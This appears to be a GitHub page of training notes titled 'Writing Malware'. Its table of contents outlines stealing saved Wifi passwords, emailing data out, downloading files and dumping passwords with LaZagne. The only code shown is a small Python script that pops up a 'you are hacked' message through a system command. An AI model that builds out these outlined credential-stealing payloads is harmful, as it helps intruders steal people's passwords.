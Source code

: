 # Writing Malware

## Table of content

- #Execute System Command Payload
- #Stealing Wifi Passwords Saved on a Computer
    - #Sending Emails Using Python
    - #App password generation
    - #Filtering Command Output Using `Regex`
    - #Finally Stealing Wifi Passwords Saved on a Computer
- #`Downloading` Files Using `Python`
    - #Writing Files on Disk
- #Stealing Saved Passwords From Remote Computers Using `LaZagne`

# #Execute System Command Payload

![Screenshot 2024-03-17 225901.png](Writing%20Malware%208807b30c1663449c9b571d0ecaf6eef5/Screenshot_2024-03-17_225901.png)

execute_command.py

```python
#! /usr/bin/env python

import subprocess

#command for 32-bit python
# command = "%SystemRoot%\Sysnative\msg.exe * you are hacked" 
#command for 64-bit python
command = "msg * you are hacked"
subprocess.Popen(command, shell=True)
```
